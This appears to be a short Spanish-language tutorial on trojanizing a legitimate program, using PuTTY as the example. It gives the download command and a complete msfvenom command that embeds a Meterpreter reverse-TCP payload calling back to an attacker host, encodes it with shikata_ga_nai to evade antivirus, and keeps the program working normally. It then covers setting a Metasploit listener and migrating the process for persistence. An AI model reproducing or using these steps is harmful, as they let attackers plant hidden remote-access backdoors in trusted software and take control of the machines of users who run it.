



Backdorizar un binario es util tanto en binarios de windows, linux e incluso mac con sus respectivas dificultades.
Consiste en coger un ejecutable, un programa legítimo que el usuario utilice de manera relativamente frecuente, y vamos a inyectarle código malicioso para que cada vez que ejecute ese programa nos devuelva una conexión reversa.
Pero ese programa funcionará de forma normal.
Hay que tener en cuenta los antivirus que pueden detectar.
Vamos a modificar el programa Putty.
wget https://the.earth.li/~sgtatham/putty/0.78/w32/putty.exe
Creamos el backdoor con msfvenom:
msfvenom -a x86 --platform windows putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.16.140 lport=4445 -e x86/shikata_ga_nai -i3 -b "\x00" -f exe -o puttyX.exe
Los apartados -e -i es el tipo de codificación y las vueltas que realiza esta.
-b omite caracteres que puedan .

Ponemos a metasploit a escuchar.

set payload windows/meterpreter/reverse_tcp
Configuramos los demás parámetros y ponemos a escuchar.
En este caso va a ser detectado el binario como malicioso así que para realizar las pruebas desactivamos el antivirus.

Una de las técnicas en este punto es migrar el proceso a otro del sistema que se ejecute en segundo plano para ganar persistencia.